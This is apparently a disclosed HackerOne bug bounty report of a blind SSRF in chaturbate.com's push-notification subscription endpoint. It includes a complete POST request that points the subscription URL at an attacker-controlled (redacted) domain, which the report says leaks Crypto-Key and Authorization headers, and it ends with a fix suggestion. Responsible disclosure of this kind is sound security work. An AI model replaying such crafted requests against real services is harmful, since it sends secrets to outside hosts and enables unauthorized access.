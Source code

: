# Blind SSRF at https://chaturbate.com/notifications/update_push/

## Report Details
- **Report ID**: 411865
- **URL**: https://hackerone.com/reports/411865
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-09-20T17:04:29.167Z
- **Disclosed**: 2018-10-21T05:11:44.913Z

## Reporter
- **Username**: robin0oklay
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: chaturbate

## Vulnerability Information
In the application at https://chaturbate.com/notifications/update_push/ there is a functionality to subscribe any cam model which will trigger the provided request. Using this Request an attacker can execute SSRF attack and also steal sensitive Token / Keys of the internal web server

Steps to Replicate the submission:-

Login to your https://chaturbate.com/ account or use my account-
USERNAME-██████████
PASSWORD-███████

Now click on profile, or trigger any request so that you can get your Cookie / CSRF token.

Send any request to repeater and replace it with the provided request

POST /notifications/update_push/ HTTP/1.1
Host: chaturbate.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: https://chaturbate.com/princesscin/
Content-Type: application/x-www-form-urlencoded
X-CSRFToken: YOURCSRFHERE
X-Requested-With: XMLHttpRequest
Content-Length: 408
Cookie: YOURCOOKIEHERE
Connection: close

subscription={"endpoint":"http:\/\/███\/wpush\/v2\/████&unsub=false

As you can see that I have changed the actual URL to my domain ████████, so that I can get the actual request send to the server.

Put your cookie and CSRF token (you can copy CSRF token from your cookies) over here and than send this request

Go to this URL to confirm SSRF at - http://████████████
you will find that your Crypto-Key, Encryption header and Authorization Header is getting leaked onto the Attackers malicious site.
These headers are very sensitive to be leaked and hence needs to be fixed as soon as possible.

##Note
The application do not require to send the URL along with the domain, it is secure to only send the Rest part of the URL and do not include the domain so that the attacker could not control the complete request.

Thanks

Regards
Robin Ooklay

## Impact

Using this Request an attacker can execute SSRF attack and also steal sensitive Token / Keys of the internal web server.

## Attachments
No attachments
